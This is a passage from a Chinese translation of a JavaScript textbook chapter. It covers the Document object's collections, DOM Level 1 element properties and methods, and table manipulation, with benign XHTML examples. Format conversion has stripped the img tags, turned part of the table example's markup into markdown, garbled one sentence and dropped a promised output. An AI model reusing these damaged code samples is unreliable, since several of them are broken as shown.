| **embeds[]** | 页面中所有 `<embed>` 标签。 | Netscape 3+ 和 Internet Explorer 4+ | 无 DOM 支持 |
| **forms[]** | 页面中所有由 `<form>` 标签设置的表单。 | Netscape 2+ 和 Internet Explorer 3+ | DOM Level 1 |
| **images[]** | 页面中所有由 HTML `` 标签指示的图像的集合。 | Netscape 3+ 和 Internet Explorer 4+ | DOM Level 1 |
| **links[]** | 页面中由 `<a href="linkdest">...</a>` 形式标签定义的链接。 | Netscape 2+ 和 Internet Explorer 3+ | DOM Level 1 |
| **plugins[]** | 页面中所有 `<embed>` 标签。此集合与 **embeds[]** 同义，后者是首选的集合。 | Netscape 3+ 和 Internet Explorer 4+ | 无 DOM 支持 |

除了 *表 13-2* 中呈现的常用集合之外，传统上 **Document** 对象还支持 *title* 属性，该属性保存由 (X)HTML 文档的 head 元素中 `<title>` 标签指定的文档标题。在传统 JavaScript 中，此属性是只读字符串。然而，在现代浏览器中，你也可以设置其值。

#### document.anchors[] 和 document.links[]

我们详细考察的第一个 (X)HTML 标签相关对象是自 JavaScript 最早的版本以来就可以访问的链接和锚点。在 (X)HTML 中，锚点是已命名的链接——换句话说，它作为其他链接的目的地。锚点使用 `<a name="anchorname">...</a>` 定义。链接同样使用 `<a>` 标签定义，但包含一个 **href** 属性来设置链接目标，如下所示：`<a href="http://www.yahoo.com">click me!</a>`。当然，应该清楚的是，链接也可以是锚点，因为 `<a name="yahoolink" href="http://www.yahoo.com">` 是完全有效的。

**anchors[]** 集合在 JavaScript 中似乎不太有用，因为传统上你只能使用 **document.anchors.length** 访问其 *length* 属性。除此之外，你实际上无法修改任何东西。由于在 DOM 下，`<a>` 标签由 **HTMLAnchorElement** 引用，你当然可以自由更改该标签的任意属性。

**links[]** 集合包含文档中每个 `<a href="">` 对应的所有对象。由于它是一个数组，我们当然可以用 **document.links.length** 访问其长度。然而，我们可以操作每个链接的 **href** 属性中的 URL。大多数浏览器下的 **Link** 对象将具有与 **Location** 对象相同的属性，包括 **hash**、**host**、**hostname**、**href**、**pathname**、**port**、**protocol** 和 **search**。这些属性对应于 URL 的各个部分，除了 **href**，它包含完整的 URL。


你还可以读取链接的 *target* 属性，以查看链接将加载到哪个窗口或框架的名称。

链接属性最有用的地方在于，你可以在文档加载后设置 **href** 属性，如下面的一个小 JavaScript 片段所示。

```
<a href="http://www.yahoo.com">Test Link</a>
<form action="#" method="get">
<input type="button" value="change link" onclick="document.links[0].href='http://www.google.com';" />
</form>
```

JavaScript 程序员应该能够设想出许多这一可设置属性的有用应用，例如根据用户操作、一天中的时间、回访等因素使链接表现不同。

> **注意** 请务必注意，构成客户端图像映射中链接的 `<area>` 标签也包含在 **links[]** 集合中。

#### document.forms[]


**forms[]** 集合包含引用文档中所有 **\<\<form\>\>** 标签的对象。这些对象可以通过数字或名称进行引用。因此 **document.forms[0]** 将引用文档中的第一个表单标签，而 **document.forms["myform"]** 或 **document.myform** 将引用由 **\<\<form name="myform"\>\>** 定义的名为 "myform" 的表单，无论它出现在文档的哪个位置。单个 **Form**（或在 DOM 下的 **HTMLFormElement**）对象的主要属性与 **\<\<form\>\>** 标签的属性相关，包括

-   **action** 由 **action** 属性指定的表单提交目标 URL。如果未指定，表单将提交到当前文档的位置。
-   **encoding** **enctype** 属性的值，通常为 *application/x-www-form-urlencoded*，除非使用文件上传时应为 *multipart/form-data*。偶尔在使用 *mailto:* URL 提交时，值可能为 *text/plain*。
-   **encType** DOM 属性，用于替代传统的 encoding 属性来访问 **enctype** 属性的值。
-   **method** **method** 属性值，为 *get* 或 *post*。未指定时默认为 *get* 方法。
-   **name** 表单的名称（如果已定义）。
-   **target** 显示表单结果的窗口或框架名称。

**Form** 对象还指定了一个 *length* 属性，对应于表单中由 **\<\<input\>\>**、**\<\<select\>\>**、**\<\<textarea\>\>** 以及在支持该 HTML 元素的浏览器中可能包括 **\<\<button\>\>** 定义的字段数量。这些元素的对象引用存储在 **Form** 对象的 **elements[]** 集合中，接下来将进行讨论。最后，**Form** 对象支持两个方法，**submit()** 和 **reset()**，分别对应表单的提交和重置。

### Form Elements 集合

每个 **Form** 对象的 **elements[]** 集合是一个数组，包含表单中的各种字段，包括复选框、单选按钮、选择菜单、文本区域、文本字段、密码字段、重置按钮、提交按钮、通用按钮，甚至隐藏字段。后来的 JavaScript 实现还支持文件上传字段。访问表单元素可以通过数字方式（**document.myform.elements[0]**）或通过名称（**document.myform.textfield1**）进行。表单中元素的数量可以通过 **document.formname.length** 或 **document.formname.elements.length** 访问。每个表单字段对象的属性因 HTML 语法而异。让我们通过标准文本来了解其概念。

(X)HTML 中的文本字段由 **\<input type="text" name="fieldname" size="*field size in chars*" maxlength="*maxlength of entry in chars*" value="default text value" /\>** 定义，因此相应地，你会期望文本字段对象的属性为 **type**、**name**、**size**、**maxlength** 和 **value**。在 DOM 标准中，**maxlength** 属性应引用为 **maxLength**。还定义了属性 **defaultValue**，它保存由 **value** 属性指定的原始值，因为该对象的 **value** 属性会随着用户更改字段而变化。这里展示了一个操作文本字段的简单示例。

```html
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN"
"http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">

<html xmlns="http://www.w3.org/1999/xhtml">

<head>

<title>Text Field Fun</title>

<meta http-equiv="content-type" content="text/html; charset=ISO-8859-1" />

<script type="text/javascript">

<!--

function showProps(textfield)

{

var prop, str="Field Properties\n\n";

str += "name: "+textfield.name + "\n";

str += "type: "+textfield.type + "\n";

str += "size: "+textfield.size + "\n";

str += "maxLength: "+textfield.maxLength + "\n";

str += "value: "+textfield.value + "\n";

str += "defaultValue: "+textfield.defaultValue + "\n";

alert(str);

}

// -->

</script>

</head>

<body>

<form action="#" method="get" id="myform" name="myform">
<input type="text" id="field1" name="field1" size="20" maxlength="30"
value="initial value" /><br />
<input type="button" value="Read field"
onclick="alert(document.myform.field1.value);" />
<input type="button" value="Write field"
onclick="document.myform.field1.value='Changed!!!';" />
<input type="button" value="Show properties"
onclick="showProps(document.myform.field1);" />
</form>
</body>
</html>
```

关于访问 **Form** 对象及其所有可能包含的元素的细微差别的深入讨论将在第 14 章中介绍，届时我们将讨论表单验证和 JavaScript 对表单填写的其他改进。

### document.images[]

Netscape 3 及更高版本的 Internet Explorer 向 **Document** 对象添加了 `images[]` 集合，该集合在 DOM 下继续可用。显然，此集合包含与 (X)HTML \<\\> 标签定义的图像相关的对象。与其他集合一样，`length` 属性可用，并且可以通过数字方式（`document.images[0]`）或通过名称（`document.images['myimage']`）通过集合访问各种图像。

一旦被访问，传统的 JavaScript **Image** 对象支持与其 (X)HTML 属性相关的 JavaScript 属性，包括 **border**、**height**、**hspace**、**lowsrc**、**name**、**src**、**vspace** 和 **width**。该对象还支持属性 `complete`，其中包含一个 `Boolean` 值，指示图像是否已完全加载。DOM 的 **HTMLImageElement** 将此支持扩展到所有其他 (X)HTML 属性，使用等效的属性名称，但 **lowsrc**、**ismap**、**longdesc** 和 **usemap** 除外，它们分别变为 `lowSrc`、`isMap`、`longDesc` 和 `useMap`。

> **注意** *DOM 规范与 HTML 4 规范相关，而非 XHTML。你甚至可能发现一些超出 HTML 4 的小扩展，如 `lowSrc`。如果你非常关心可验证的标记，请谨慎操作。*

这里给出了一个访问图像的简单示例，其渲染效果可以在图 13-3 中找到。

#### 图 13-3：示例图像属性

```html
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN"
"http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
```

```html
<html xmlns="http://www.w3.org/1999/xhtml">
```

```html
<head>
```

```html
<title>Image Fun</title>
```

```html
<meta http-equiv="content-type" content="text/html; charset=ISO-8859-1" />
```

```html
<script type="text/javascript">
```

```html
<!--
```

```html
function showProps(theImage)
{
var prop, str="Image Properties\n\n";

str += "alt: "+theImage.alt + "\n";
str += "border: "+theImage.border + "\n";
str += "complete: "+theImage.complete + "\n";
str += "height: "+theImage.height + "\n";
str += "hspace: "+theImage.hspace + "\n";
// use traditional lowsrc rather than lowSrc since no IE6 support
str += "lowsrc: "+theImage.lowsrc + "\n";
str += "name: "+theImage.name + "\n";
str += "src: "+theImage.src + "\n";
str += "vspace: "+theImage.vspace + "\n";
str += "width: "+theImage.width + "\n";
alert(str);
}
//-->
```

```html
</script>
</head>
<body>
```

```html

```

```html
<br /><br />
```

```html
<form action="#" method="get">
```

```html
<input type="button" value="Show properties" onclick="showProps(document.images['testimage']);" />
```

```html
<input type="button" value="Swap Image" onclick="document.testimage.src='image2.gif';" />
```


我们将在第15章再次更详细地探讨所有这些属性，并了解如何使用**Image**对象创建一个名为rollover button的常见JavaScript效果。

### 与对象相关的集合：applets[]、embeds[]和plugins[]

Netscape 3及更高版本的Internet Explorer 4支持JavaScript访问嵌入对象技术，如Java applet和Netscape插件，分别可以通过**applets[]**和**embeds[]**集合来访问。**plugins[]**集合也普遍被支持，它仅仅是**embeds[]**集合的同义词。DOM继续仅支持**applets[]**集合，尽管事实上ActiveX控件和插件在公共网站中的数量远远超过Java applet，因此开发者应将此缺乏标准支持的情况视为疏忽。

与前面介绍的集合类似，这些集合包含与`<applet>`或`<embed>`标签使用相关的对象引用，因此可以访问集合的**length**属性，并且可以通过数字索引（**document.embeds[0]**）或名称（**document.myJavaApplet**）来引用集合中的单个项目。

每个嵌入对象所支持的特定属性和方法不一定与到目前为止讨论的元素一样一致，因为它很大程度上取决于嵌入的对象。对于Java applet，可以通过JavaScript引用所包含applet的各种公共属性和方法；而对于插件，属性和方法则因插件而异。这是合理的，因为可以预期包含的Flash影片的特性会与嵌入的音频文件等不同。由于这些差异，读者应参阅第18章以获得更完整的解释。

### 与DHTML相关的文档集合

鉴于前面的讨论，你可能会期待出现针对段落、列表等的各种集合。虽然这看起来合理，但实际上情况在4.x代浏览器中恶化得更糟，陷入了DHTML的混乱，出现了专有的集合如**layers[]**和**all[]**，如第9章所述。我们将避免讨论除**document.all[]**之外的任何内容，许多开发者仍在使用它，无论好坏。

### Document.all[]

在Internet Explorer中，**all[]**集合代表文档中的所有(X)HTML元素和注释。与所有(X)HTML元素集合一样，它可以按数字索引使用（**document.all[10]**）或按名称使用（**document.all['myP1']**），当(X)HTML元素设置了**id**属性时。Internet Explorer中的命名对象都可以使用**item**方法来访问，如下所示：**document.all.item('myP1')**。然而，许多JavaScript程序员会直接通过其**id**值访问对象，如*myP1*。你还可以使用**document.all[]**的**tags()**方法来返回特定类型的所有标签列表：

`var allBolds = document.all.tags("B");`

然后可以像访问其他任何集合一样访问返回的集合。一旦找到元素，问题就变成了：它有哪些属性？当然，这取决于正在查看的元素类型。例如，如果*myP1*持有对段落元素的引用，你可以在Internet Explorer 4及更高版本中通过*myP1.align*设置其对齐方式。

`myP1.align="center";`

其他HTML元素对象将具有与其HTML属性相关的属性。

虽然**document.all[]**提供了一种访问HTML元素的简便方式，但许多其他与DHTML相关的集合并非如此无害。实际上，很少应该使用与DHTML相关的集合。然而，为了向后兼容，你可能需要了解一些DHTML集合，如**document.layers[]**和**document.all[]**。第15章举例说明了同时使用DOM和DHTML方法来移动、显示和隐藏对象。但JavaScript的未来不是继续使用所有常用的hack和变通方法，而是迁移到DOM标准。

### 文档对象模型再述

DOM Level 1试图标准化JavaScript**Document**对象，以支持对任意HTML元素和文本对象的操作，同时提供对大多数常用**Document**属性、集合和方法的支持。这种向后支持通常称为DOM Level 0，与Netscape 3支持的内容基本一致，除了JavaScript对插件的访问。DOM Level 1支持的**Document**属性如表13-3所示。

#### 表13-3：DOM Level 1文档属性和集合

| 文档属性或集合 | 描述 |
|---|---|
| **anchors[]** | 由`<a name="anchorname" >`定义的锚点集合。 |
| **applets[]** | 页面中由`<applet>`标签定义的Java applet集合。 |
| **body** | 代表包含可见文档的`<body>`标签的对象引用。 |
| **cookie** | 保存文档cookie值的字符串（如果有）。 |
| **doctype** | 对文档DTD的引用。 |
| **documentElement** | 对文档根元素的引用。在HTML中，这是`<html>`标签。 |
| **domain** | 文档的安全域。 |
| **forms[]** | 页面中的`<form>`标签。 |
| **images[]** | 由``定义的图像集合。 |
| **implementation** | 对能够确定特定文档标记语言功能支持的对象的引用。 |
| **links[]** | 页面中由`<a>`和`<area>`标签指定的链接集合。 |
| **referrer** | 保存引用URL（如果有）。 |
| **Title** | 文档的标题。 |
| **URL** | 保存文档URL的字符串。 |

请注意表13-3中DOM如何保留到目前为止讨论的许多集合，仅添加了**body**、**docType**和**documentElement**等少数属性。唯一似乎缺失的是**lastModified**；幸运的是，浏览器继续支持它。

方法方面，传统上**Document**对象仅支持**open()**、**close()**、**clear()**、**write()**和**writeln()**。DOM Level 1去掉了**clear()**方法，它本来就没有多大用处。然而，除了更静态的**write()**方法外，DOM还提供了多种动态创建对象的方法。它添加了诸如**createComment(**_data_**)**（创建形式为`<!-- data -->`的(X)HTML注释）、**createElement(**_tagName_**)**（创建_tagName_的(X)HTML元素）和**createTextNode(**_data_**)**（创建包含参数_data_值的文本节点）等方法。还有其他DOM"create"方法，但在处理HTML文档时通常不太有用。

我们在第10章还看到，DOM添加了三个用于检索文档中位置的有用方法：

- **document.getElementById(**_elementId_**)** 返回对`id="elementId"`的对象的引用
- **document.getElementsByName(**_elementName_**)** 返回所有`name="elementName"`的(X)HTML元素对象列表
- **document.getElementsByTagName(**_tagname_**)** 返回所有_tagname_（例如STRONG）的(X)HTML元素列表

一旦我们检索到对象，就可以查看各种属性。例如，再次回想第10章，每个DOM节点（包括(X)HTML元素）都具有与其在文档树中位置相关的各种属性，如**parentNode**、**childNodes**、**firstChild**、**lastChild**、**previousSibling**和**nextSibling**。还有众多方法如**insertBefore()**用于向文档中添加节点，无论它们是HTML标签还是文本节点。还有操作属性和值的属性，但直接执行通常更容易，我们将在后面演示。

除了DOM定义的属性外，需要了解的是，在HTML 4和XHTML下，所有元素都有共同的核心属性集，与脚本、样式表和可访问性相关（id、class、style和title）以及语言使用（lang和dir）相关。如果将所有这些放在一起，就得到了JavaScript中表示的任何HTML元素的完整属性和方法集。在DOM下，这个对象称为HTMLElement，其属性和方法总结于表13-4中。

#### 表13-4：HTMLElement的通用DOM属性

| 通用HTMLElement、属性或集合 | 描述 |
|---|---|
| attributes[] | 元素的属性集合（如果有）。 |
| childNodes[] | 当前HTML元素内包含的节点（文本节点、元素等）集合。 |
| className | class属性的值。 |
| Dir | 封闭文本的文本方向，LTR（从左到右）或RTL（从右到左），由dir属性设置。 |
| firstChild | 对当前HTML元素内直接包含的第一个节点的引用。这与element.childNodes[0]相同。当然，子节点可以是任何类型，不仅仅是HTML元素。 |
| Id | 元素id属性设置的文本字符串。 |
| lang | 元素lang属性设置的语言代码。 |
| lastChild | 当前HTML元素的直接后代子节点列表中最后一个子节点的引用。 |
| nodeName | HTML元素的名称，例如P。与tagName相同。 |
| nodeValue | 节点的值。对于HTML元素，此属性始终为null。 |
| nodeType | 节点类型的数字代码。对于HTML元素，此值始终为1。 |
| nextSibling | 对当前HTML元素的下一个DOM节点兄弟的引用。 |
| ownerDocument | 对包含当前元素的Document对象的引用。 |
| parentNode | 对包含HTML元素的引用 |
| previousSibling | 对当前HTML元素的上一个DOM节点兄弟的引用。 |
| style | 对当前元素的内联样式规格的访问。这是DOM Level 2属性。 |
| tagName | 对HTML元素名称（如OL）的引用。对于元素节点，这将与nodeName相同。 |
| Title | 保存元素title属性设置的建议性文本的文本字符串。 |

如第10章所述，在DOM Level 1下，所有HTML元素还具有多种有用的方法。较常用的方法如表13-5所示。

#### 表13-5：通用DOM HTMLElement方法

| 方法名称 | 描述 |
|---|---|
| appendChild(newChild) | 此方法将newChild中的节点附加为当前元素的最后一个子节点。 |
| cloneNode(deep) | 复制当前HTML元素。如果参数deep传递为true，则创建的副本包含当前元素内所有节点。 |


### 访问特定 HTML 元素的属性

正如第 10 章中提到的，(X)HTML 属性名与 DOM 属性名之间的对应关系几乎是一一对应的。例如，`<body>` 标签对应的是 DOM 对象 HTMLBodyElement，它具有前面讨论过的属性以及与其特定属性相关的属性，包括 aLink、background、bgColor、link、text 和 vLink。除了 JavaScript 的“驼峰式”书写风格之外，这些就是 (X)HTML 标签的属性。虽然像 `<body>` 这样的许多标签都有自己特殊的属性，但也有很多 (X)HTML 元素只拥有一组简单的核心属性：**id**、**class**、**style** 和 **title**，以及语言属性 **lang** 和 **dir**。DOM 提供了对这些属性的访问，分别为 **id**、**className**、**style**、**title**、**lang** 和 **dir**。表 13-6 中列出的众多 (X)HTML 元素可以与通用 DOM 对象 HTMLElement 相关联。

**表 13-6：与 DOM HTMLElement 相关联的 (X)HTML 元素**

| | | | |
| :--- | :--- | :--- | :--- |
| `<sub>` | `<sup>` | `<span>` | `<bdo>` |
| `<tt>` | `<i>` | `<b>` | `<u>` |
| `<s>` | `<strike>` | `<big>` | `<small>` |
| `<em>` | `<strong>` | `<dfn>` | `<code>` |
| `<samp>` | `<kbd>` | `<var>` | `<cite>` |
| `<acronym>` | `<abbr>` | `<dd>` | `<dt>` |
| `<noframes>` | `<noscript>` | `<address>` | `<center>` |

所有其他 (X)HTML 标签都继承了表 13-6 中描述的相同属性/属性关系，但有些标签除了这些之外还有特定的属性。这些标签及其相关的 DOM 属性，以及在某些情况下的方法，如表 13-7 所示。我们已将因驼峰式风格而与属性名不同的属性加粗显示，以便于参考。

**表 13-7：与 DOM 对象相关联的 (X)HTML 元素**

| (X)HTML 标签 | DOM 对象 | 属性 | 方法 |
| :--- | :--- | :--- | :--- |
| `<html>` | HTMLHtmlElement | version | |
| `<head>` | HTMLHeadElement | profile | |
| `<link>` | HTMLLinkElement | disabled, charset, href, hreflang, media, rel, rev, target, type | |
| `<title>` | HTMLTitleElement | text | |
| `<meta>` | HTMLMetaElement | content, httpEquiv, name, scheme | |
| `<base>` | HTMLBaseElement | href, target | |
| `<isindex>` | HTMLIsIndexElement | form, prompt | |
| `<style>` | HTMLStyleElement | disabled, media, type | |
| `<body>` | HTMLBodyElement | aLink, background, bgColor, link, text, vLink | |
| `<form>` | HTMLFormElement | elements[], length, name, acceptCharset, action, enctype, method, target | submit(), reset() |
| `<select>` | HTMLSelectElement | type, selectedIndex, value, length, form, options[], disabled, multiple, name, size, tabIndex | add(), remove(), blur(), focus() |
| `<optgroup>` | HTMLOptGroupElement | disabled, label | |
| `<option>` | HTMLOptionElement | form, defaultSelected, text, index, disabled, label, selected, value | |
| `<input>` | HTMLInputElement | defaultValue, defaultChecked, form, accept, accessKey, align, alt, checked, disabled, maxLength, name, readOnly, size, src, tabIndex, type, useMap, value | blur(), focus(), select(), click() |
| `<textarea>` | HTMLTextAreaElement | defaultValue, form, accessKey, cols, disabled, name, readOnly, rows, tabIndex, type, value | blur(), focus(), select() |
| `<button>` | HTMLButtonElement | form, accessKey, disabled, name, tabIndex, type, value | |
| `<label>` | HTMLLabelElement | form, accessKey, htmlFor | |
| `<fieldset>` | HTMLFieldSetElement | form | |
| `<legend>` | HTMLLegendElement | form, accessKey, align | |
| `<ul>` | HTMLUListElement | compact, type | |
| `<ol>` | HTMLOListElement | compact, start, type | |
| `<dl>` | HTMLDListElement | compact | |
| `<dir>` | HTMLDirectoryElement | compact | |
| `<menu>` | HTMLMenuElement | compact | |
| `<li>` | HTMLLIElement | type, value | |
| `<div>` | HTMLDivElement | align | |
| `<p>` | HTMLParagraphElement | align | |
| `<h1>`…`<h6>` | HTMLHeadingElement | align | |
| `<q>` | HTMLQuoteElement | cite | |
| `<pre>` | HTMLPreElement | width | |
| `<br>` | HTMLBRElement | clear | |
| `<basefont>` | HTMLBaseFontElement | color, face, size | |
| `<font>` | HTMLFontElement | color, face, size | |
| `<hr>` | HTMLHRElement | align, noShade, size, width | |
| `<ins>`, `<del>` | HTMLModElement | cite, dateTime | |
| `<a>` | HTMLAnchorElement | accessKey, charset, coords, href, hreflang, name, rel, rev, shape, tabIndex, target, type | blur(), focus() |
| `` | HTMLImageElement | lowSrc, name, align, alt, border, height, hspace, isMap, longDesc, src, useMap, vspace, width | |
| `<object>` | HTMLObjectElement | form, code, align, archive, border, codeBase, codeType, data, declare, height, hspace, name, standby, tabIndex, type, useMap, vspace, width | |
| `<param>` | HTMLParamElement | name, type, value, valueType | |
| `<applet>` | HTMLAppletElement | align, alt, archive, code, codeBase, height, hspace, name, object, vspace, width | |
| `<map>` | HTMLMapElement | areas, name | |
| `<area>` | HTMLAreaElement | accessKey, alt, coords, href, noHref, shape, tabIndex, target | |
| `<script>` | HTMLScriptElement | text, htmlFor, event, charset, defer, src, type | |
| `<table>` | HTMLTableElement | caption, tHead, tFoot, rows, tBodies, align, bgColor, border, cellpadding, cellSpacing, frame, rules, summary, width | createTHead(), deleteTHead(), createTFoot(), deleteTFoot(), createCaption(), deleteCaption(), insertRow(), deleteRow() |
| `<caption>` | HTMLTableCaptionElement | align | |
| `<col>` | HTMLTableColElement | align, ch, chOff, span, vAlign, width | |
| `<thead>`, `<tfoot>`, `<tbody>` | HTMLTableSectionElement | align, ch, chOff, vAlign, rows[] | insertRow(), deleteRow() |
| `<tr>` | HTMLTableRowElement | rowIndex, sectionRowIndex, cells[], align, bgColor, ch, chOff, vAlign | insertCell(), deleteCell() |
| `<td>`,`<th>` | HTMLTableCellElement | cellIndex, abbr, align, axis, bgColor, ch, chOff, colSpan, headers, height, noWrap, rowSpan, scope, vAlign, width | |
| `<frameset>` | HTMLFrameSetElement | cols, rows | |
| `<frame>` | HTMLFrameElement | frameBorder, longDesc, marginHeight, marginWidth, name, noResize, scrolling, src | |
| `<iframe>` | HTMLIframeElement | align, frameBorder, height, longDesc, marginHeight, marginWidth, name, scrolling, src, width | |

一旦使用 **document.getElementById()** 等方法访问到元素后，操作 (X)HTML 元素及其相关属性就非常直接了，如下所示：

```
<p id="myP1">Test Paragraph</p>

<form action="#" method="get">

<input type="button" value="align left"
  onclick="document.getElementById('myP1').align='left';" />

<input type="button" value="align center"
  onclick="document.getElementById('myP1').align='center';" />

<input type="button" value="align right"
  onclick="document.getElementById('myP1').align='right';" />

</form>
```

使用 **document.createElement()** 添加 (X)HTML 元素也同样直接，如下一个示例所示，在这个示例中，我们遵循了 [第 10 章](Chapter 10) 中介绍的编辑器的思路。在这种情况下，我们允许用户输入任意的标签名称和值，并将其添加到文档中。我们应用

一个简单的检查，确保用户不会尝试添加结构性元素，或向空元素添加文本内容，这暗示了人们可以开始采用的一种逻辑思路，以利用 DOM 创建一个功能完整的、由语法驱动的编辑器。

```
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN"
"http://www.w3.org/TR/xhtml/DTD/xhtml1-transitional.dtd">

<html xmlns="http://www.w3.org/1999/xhtml">

<head>

<title>Simple DOM Editor 0.2</title>

<meta http-equiv="content-type" content="text/html; charset=ISO-8859-1" />

<script type="text/javascript">

<!--

var dangerousElements = 
{'html':true,'head':true,'body':true,'script':true,'style':true,'frameset':true,'frame':true};

var emptyElements = 
{'hr':true,'meta':true,'br':true,'area':true,'base':true,'basefont':true,'link':
true,'frame':true};

function addElement(theElement,theText)
{

    if (theElement in dangerousElements)
    {

        alert("Error: Element not allowed");

        return;

    }

var newNode = document.createElement(theElement);

if ((theText.length > 0) && !(theElement in emptyElements))
{

    var newText = document.createTextNode(theText);

    newNode.appendChild(newText);

}
```

```
else

    alert("Warning: Do not add text to an empty element");

    document.getElementById('insertHere').appendChild(newNode);

}

//--> 

</script>

</head>

<body>

<div id="insertHere" style="width: 80%; border-style: dashed; border-width: 1px;">

    &nbsp;

</div>

<form action="#" method="get" name="theForm" id="theForm">

    <input type="text" value="i" name="theTag" id="theTag" />

    <input type="text" name="theText" id="theText" value="Testing 1..2..3.." />

    <input type="button" value="Create"

    onclick="addElement(document.theForm.theTag.value,document.theForm.theText.value);"

    />

</form>

</body>

</html>
```

要从 JavaScript 演示创建每一个标签会非常繁琐且重复。它们都遵循与前一个示例相同的精神。感兴趣的读者可以深入研究附录 B，其中包含了 DOM Level 1 所有与 (X)HTML 相关属性的完整列表。然而，在结束本章之前，是时候看看一个持续困扰开发者的 (X)HTML 元素——表格。

### DOM 表格操作

HTML 4 中定义的 <table> 标签具有多种属性，这些属性都有类似名称的 DOM 属性，正如我们在所有 HTML 元素中看到的那样。对于 <table>，这些属性包括 **align**、**bgColor**、**border**、**cellPadding**、**cellSpacing** 和 **width**。在 <table> 标签中，我们可能会发现一个 <caption> 标签，以及一个或多个由 <tr> 定义的表格行，其中填充了表格标题（<th>）或数据单元格（<td>）。在 HTML 4 下，表格扩展为支持以下结构：

- 一个起始的 <table> 标签。
- 一个可选的标题，由 <caption> **...** </caption> 指定。
- 一个或多个行组。它们可能包括由 <thead> 指定的表头部分、由 <tfoot> 指定的表尾部分，以及由 <tbody> 指定的表体部分。尽管所有这些元素都是可选的，但表格必须包含至少一系列由 <tr> 指定的行。这些行本身必须包含至少一个标题或一个数据单元格，分别由 <th> 或 <td> 指定。
- 一个或多个列组，由 <colgroup> 指定，组内各列由 <col> 指定。
- 一个闭合的 </table> 标签。

此外，HTML 4 为表格定义了 **frame** 属性，用于设置表格应具有的边框类型；**rules** 属性，用于设置应在行和列之间的什么位置放置分隔线；以及 **summary** 属性，用于为非可视化浏览器定义表格的内容。这里的简单示例允许你操作 (X)HTML 表格的常见属性。该示例的渲染效果如图 13-4 所示。

**图 13-4：** 使用 DOM 检查和修改 `<table>` 标签

```
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN"
"http://www.w3.org/TR/xhtml/DTD/xhtml1-transitional.dtd">

<html xmlns="http://www.w3.org/1999/xhtml">

<head>

<title>(X)HTML Table Inspector</title>

<meta http-equiv="content-type" content="text/html; charset=ISO-8859-1" />

</head>

<body>

<table border="1" frame="box" id="testTable">

<caption>Test Table</caption>
```

```
<thead>

    <tr>

        <th>Product</th>

        <th>SKU</th>

        <th>Price</th>

    </tr>

</thead>

<!-- tfoot does indeed come before tbody  -->

<tfoot>

    <tr>

        <th colspan="3">This has been an HTML 4 table example, thanks for reading</th>

    </tr>

</tfoot>

<tbody>

    <tr>

        <th colspan="3" align="center">Robots</th>

    </tr>

    <tr>

        <td>Trainer Robot</td>

        <td>TR-456</td>

        <td>$56,000</td>

    </tr>

    <tr>

        <td>Guard Dog Robot</td>

        <td>SEC-559</td>

        <td>$5,000</td>

    </tr>
```

| Friend Robot | AG-343 | $124,000 |
|---|---|---|

| Jet Packs |
|---|
| Economy | JP-3455E6 | $6,000 |
| Deluxe | JP-9999d | $15,000 |

<br clear="all" /><hr /><br clear="all" />

```
<script type="text/javascript">

    var theTable = document.getElementById('testTable');

</script>
```

```
<form action="#" method="get">

<strong>Alignment:</strong>

        <select onchange="theTable.align = this.options[this.selectedIndex].text;">

            <option>left</option>

            <option>center</option>

            <option>right</option>

        </select>

<strong>Background Color:</strong>

        <select onchange="theTable.bgColor = this.options[this.selectedIndex].text;">

            <option>white</option>

            <option>red</option>

            <option>blue</option>

            <option>yellow</option>

            <option>orange</option>

            <option>green</option>

            <option>black</option>

        </select>

<strong>Frames:</strong>

        <select onchange="theTable.frame = this.options[this.selectedIndex].text;">

            <option>above</option>

            <option>below</option>

            <option>border</option>

            <option>box</option>

            <option>hsides</option>

            <option>vsides</option>

            <option>lhs</option>
```

```
<option>rhs</option>

<option>void</option>

</select>

<strong>Rules:</strong>

<select onchange="theTable.rules = this.options[this.selectedIndex].text;">

    <option>all</option>

    <option>cols</option>

    <option>groups</option>

    <option>none</option>

    <option>rows</option>

</select>

<br /><br />

<strong>Border:</strong>

<input type="text" size="2" maxlength="2" value="1" onchange="theTable.border = this.value;" />

<strong>Cell Padding:</strong>

<input type="text" size="2" maxlength="2" value="1" onchange="theTable.cellPadding = this.value;" />

<strong>Cell Spacing:</strong>

<input type="text" size="2" maxlength="2" value="1" onchange="theTable.cellSpacing = this.value;" />

</form>

</body>

</html>
```

*注意 请注意，即使是最新的浏览器，对 **rules** 和 **frame** 属性值的支持也可能参差不齐。*

**HTMLTableElement** 对象还包含对其典型封闭元素的快捷引用。例如，**tableElement**.caption 会引用通过 *tableElement* 引用的表格所封闭的 <caption> 标签，而 **tableElement**.tHead 和 **tableElement**.tFoot 则会分别引用 <thead> 和 <tfoot> 标签。**rows[]** 集合提供了对表格内 <tr> 标签的访问，索引从 0 开始，与其他集合相同，而 **tBodies[]** 集合则提供对 <tbody> 标签的访问。在这些对象中，我们还可以查看它们各自的 **rows[]** 集合，其中包含指向相应表格子元素内各个 <tr> 标签的对象。

使用前面的 k 我们之前的示例，我们可以编写一个小脚本来显示前述表格的值。


```javascript
<script type="text/javascript">
<!--
  var theTable = document.getElementById('testTable');
  document.writeln("<pre>");
  document.writeln("Overall table rows="+theTable.rows.length);
  document.writeln("Number of tbody tags="+theTable.tBodies.length);
  for (i = 0; i < theTable.tBodies.length; i++)
  document.writeln("\t tbody[\"+i+\"] number of rows = 
"+theTable.tBodies[i].rows.length);
  document.writeln("Rows in tfoot tag="+theTable.tFoot.rows.length);
  document.writeln("Rows in thead tag="+theTable.tHead.rows.length);
  document.writeln("</pre>");
//-->
</script>
```

该脚本针对我们的示例 HTML 4 风格表格的输出如下所示：


此外，还提供了多种方法来构建表格的核心组成部分，包括 **createTHead()**、**createTFoot()**、**createCaption()** 和 **insertRow(index)**，其中 *index* 是一个数值，表示从 0 开始插入行的位置。与创建方法相对应，**HTMLTableElement** 对象还支持 **deleteCaption()**、**deleteTHead()**、**deleteTFoot()** 和 **deleteRowIndex(index)**。同样，基于前面的 HTML 4 示例表格，我们可以编写一些脚本来展示如何删除和添加表格中的项目。你会注意到，虽然从表格中删除项目很容易，但添加则是另一回事。实际上，在添加任何内容生效之前，你需要先向某一行中添加一些项目。

```html
<script type="text/javascript">
<!--
    var theTable = document.getElementById('testTable');
